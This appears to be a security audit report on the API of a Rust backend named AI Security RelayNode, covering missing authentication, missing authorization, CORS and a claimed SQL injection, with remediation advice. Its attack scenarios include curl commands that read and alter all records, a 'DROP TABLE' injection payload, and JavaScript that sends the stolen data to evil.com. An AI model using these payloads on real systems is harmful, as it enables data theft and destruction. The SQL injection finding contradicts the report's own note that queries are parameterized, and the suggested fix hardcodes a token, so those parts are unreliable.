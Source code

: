 # Security Vulnerability Analysis #1: Backend API Authentication & Authorization Bypass

## Executive Summary

The AI Security RelayNode backend presents **CRITICAL** authentication and authorization vulnerabilities that allow complete system compromise with minimal effort. The investigation management API lacks basic security controls, making it trivially exploitable by any user with network access.

## Critical Vulnerabilities

### 1. **COMPLETE ABSENCE OF API AUTHENTICATION** 🔴 CRITICAL
- **Location**: `ai-security-relaynode/src/investigation_api.rs`
- **Severity**: CRITICAL (CVSS 9.8)
- **Issue**: All API endpoints are completely unauthenticated
- **Evidence**:
```rust
// Any user can create, read, update, delete ALL investigations
async fn list_investigations(
    State(service): State<Arc<InvestigationService>>,
    Query(query): Query<ListQuery>,
) -> Result<Json<ApiResponse<Vec<Investigation>>>, StatusCode> {
    // No authentication check whatsoever
    let user_id = "system"; // Hardcoded user!
    match service.list_investigations(user_id).await {
        // Direct database access without authorization
    }
}
```

### 2. **SQL Injection via Path Parameters** 🔴 CRITICAL
- **Location**: `ai-security-relaynode/src/investigation_api.rs:154`
- **Severity**: CRITICAL (CVSS 9.1)
- **Issue**: Path parameters directly passed to SQL queries
- **Evidence**:
```rust
async fn get_investigation(
    State(service): State<Arc<InvestigationService>>,
    Path(id): Path<String>, // User-controlled input
) -> Result<Json<ApiResponse<Investigation>>, StatusCode> {
    // String directly passed to database query
    match service.get_investigation(&id).await {
        // No input validation or sanitization
    }
}
```

### 3. **Complete Authorization Bypass** 🔴 CRITICAL
- **Location**: All API endpoints
- **Severity**: CRITICAL (CVSS 9.5)
- **Issue**: No role-based access control implementation
- **Impact**: Any user can perform administrative operations

### 4. **CORS Wildcard Misconfiguration** 🟠 HIGH
- **Location**: `rust/wasm-mini-server/src/api.rs:47`
- **Severity**: HIGH (CVSS 7.2)
- **Issue**: Overly permissive CORS headers
- **Evidence**:
```rust
headers.set("Access-Control-Allow-Origin", "*")?; // Allows any origin
headers.set("Access-Control-Allow-Methods", "GET, POST, OPTIONS")?;
headers.set("Access-Control-Allow-Headers", "Origin, Content-Type, Accept")?;
```

## Attack Scenarios

### Scenario 1: Complete Data Breach (30 seconds)
```bash
# Attacker extracts all sensitive investigation data
curl -X GET "http://127.0.0.1:8081/api/v1/investigations"
# Returns ALL investigations from ALL users

# Attacker modifies critical investigations
curl -X PUT "http://127.0.0.1:8081/api/v1/investigations/[ID]" \
  -H "Content-Type: application/json" \
  -d '{"title":"COMPROMISED","status":"archived"}'
```

### Scenario 2: SQL Injection via Investigation ID
```bash
# SQL injection attempt
curl -X GET "http://127.0.0.1:8081/api/v1/investigations/'; DROP TABLE investigations; --"
```

### Scenario 3: Cross-Origin Data Theft
```javascript
// Malicious website can steal all investigation data
fetch('http://127.0.0.1:8081/api/v1/investigations')
  .then(r => r.json())
  .then(data => {
    // Send all investigations to attacker server
    fetch('https://evil.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

## Business Impact

- **Data Breach**: Complete exposure of all investigation data
- **Data Integrity**: Attackers can modify/delete critical investigations
- **Compliance Violation**: Fails all security standards (NIST, SOC 2, etc.)
- **Operational Disruption**: System can be completely compromised
- **Legal Liability**: Violation of data protection regulations

## Immediate Remediation (Emergency Patch)

### 1. Implement Basic Authentication Middleware
```rust
// Add to api_gateway.rs
use tower_http::auth::RequireAuthorization;

let app = Router::new()
    .route("/api/v1/investigations", get(list_investigations))
    .layer(RequireAuthorization::bearer("SECRET_TOKEN"))
    .with_state(self.investigation_service.clone());
```

### 2. Input Validation and Sanitization
```rust
// Add validation function
fn validate_investigation_id(id: &str) -> Result<String, &'static str> {
    if id.len() > 50 || !id.chars().all(|c| c.is_alphanumeric() || c == '-') {
        return Err("Invalid investigation ID format");
    }
    Ok(id.to_string())
}
```

### 3. Restrict CORS Headers
```rust
headers.set("Access-Control-Allow-Origin", "https://your-domain.com")?;
```

## Long-term Security Architecture

### 1. JWT-Based Authentication
- Implement OAuth 2.0/OIDC flow
- User authentication with role-based claims
- Token expiration and refresh mechanisms

### 2. Role-Based Access Control (RBAC)
- Define user roles: `admin`, `investigator`, `viewer`
- Implement permission matrix for operations
- Resource-level access control

### 3. Database Security
- Use parameterized queries (already implemented with sqlx)
- Add row-level security policies
- Implement audit logging

### 4. API Security Headers
- Content Security Policy (CSP)
- X-Frame-Options
- X-Content-Type-Options
- Rate limiting middleware

## Risk Assessment

| Vulnerability | Exploitability | Business Impact | Overall Risk |
|---------------|----------------|-----------------|--------------|
| No Authentication | TRIVIAL | EXTREME | **CRITICAL** |
| SQL Injection | LOW | HIGH | **HIGH** |
| Authorization Bypass | TRIVIAL | EXTREME | **CRITICAL** |
| CORS Misconfiguration | MEDIUM | MEDIUM | **HIGH** |

## Conclusion

The AI Security RelayNode backend is **COMPLETELY INSECURE** and represents an **IMMEDIATE CRITICAL THREAT** to any deployment. The system must be taken offline until basic authentication and authorization controls are implemented. This vulnerability assessment indicates a **COMPLETE ABSENCE** of security-by-design principles in the backend architecture.

**RECOMMENDATION**: **DO NOT DEPLOY** this system in any production or network-accessible environment until security controls are implemented.
